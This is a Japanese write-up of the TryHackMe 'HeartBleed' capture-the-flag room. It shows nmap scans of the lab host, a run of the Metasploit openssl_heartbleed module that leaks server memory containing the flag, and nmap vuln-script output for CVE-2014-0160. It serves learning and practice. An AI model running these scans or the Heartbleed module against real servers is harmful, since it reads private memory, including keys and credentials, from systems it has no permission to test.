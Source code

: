 # HeartBleed CTF

https://tryhackme.com/room/heartbleed

条件：OpenSSL 1.0.1 to 1.0.1f

heartbeat メッセージのメッセージ長をユーザーが指定でき、長さをチェックする実装がないことを悪用した攻撃。

## Enumeration

### ポートスキャン

```shell
TARGET=54.216.231.145
root@ip-10-10-10-185:~# sudo nmap -sS -p- $TARGET
Starting Nmap 7.80 ( https://nmap.org ) at 2025-03-24 05:38 GMT
Nmap scan report for ec2-54-216-231-145.eu-west-1.compute.amazonaws.com (54.216.231.145)
Host is up (0.00035s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
111/tcp   open  rpcbind
443/tcp   open  https
55387/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 2.41 seconds
root@ip-10-10-10-185:~# sudo nmap -sV -p22,111,443,55387 $TARGET
Starting Nmap 7.80 ( https://nmap.org ) at 2025-03-24 05:38 GMT
Nmap scan report for ec2-54-216-231-145.eu-west-1.compute.amazonaws.com (54.216.231.145)
Host is up (0.00045s latency).

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.4 (protocol 2.0)
111/tcp   open  rpcbind  2-4 (RPC #100000)
443/tcp   open  ssl/http nginx 1.15.7
55387/tcp open  status   1 (RPC #100024)
```

HTTPS

```html
<!-- don't forget to remove secret communication pages -->
```

## HeartBleed

```shell
msf6 auxiliary(scanner/ssl/openssl_heartbleed) > set RHOSTS 54.216.231.145
RHOSTS => 54.216.231.145
msf6 auxiliary(scanner/ssl/openssl_heartbleed) > set verbose true
verbose => true
msf6 auxiliary(scanner/ssl/openssl_heartbleed) > exploit
```

verbose true にセットしてエクスプロイトを実行したら、メモリ内容の大量出力の中にフラグが含まれていた。

## 振り返り

- 有名なバグのため存在を知ってはいたが、エクスプロイトは初めて触った。
- nmap で vuln スクリプトを指定したら、大量に出てくる候補の中に下記が含まれている、という感じのためノーヒントだとしたらかなり難しい。

```shell
root@ip-10-10-10-185:~# sudo nmap -sV -p22,111,443,55387 --script vuln $TARGET

| ssl-heartbleed:
|   VULNERABLE:
|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
|
|     References:
|       http://www.openssl.org/news/secadv_20140407.txt
|       http://cvedetails.com/cve/2014-0160/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160
```
